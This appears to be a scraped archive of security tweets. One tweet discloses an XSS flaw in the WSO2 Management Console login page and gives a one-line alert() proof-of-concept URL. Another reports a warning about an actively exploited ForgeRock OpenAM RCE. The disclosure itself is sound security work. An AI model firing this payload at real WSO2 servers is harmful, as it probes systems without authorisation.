 WSO2 Management Console through 5.10 allows XSS via the carbon/admin/login.jsp msgId parameter.

Poc: https://&lt;company&gt;.com/carbon/admin/login.jsp?msgId=%27;alert(1)//

🥷🤖💉🐺

#bug #infosec #cybersecurity #bugbountylife #bugbounty #bugbountytip #securitybreach https://t.co/FO44dqYmb3
</blockquote>


<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+E6J8JAaWUAMpjiG.jpg" alt="http://pbs.twimg.com/media/E6J8JAaWUAMpjiG.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>82</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1414809667717324807 _at 2021-07-13 04:51:25_**
<blockquote>
US and Australian #cybersecurity agencies are warning of an actively exploited RCE #vulnerability (CVE-2021-35464) in ForgeRock's OpenAM access management solution that could be used to remotely execute code on an affected system.
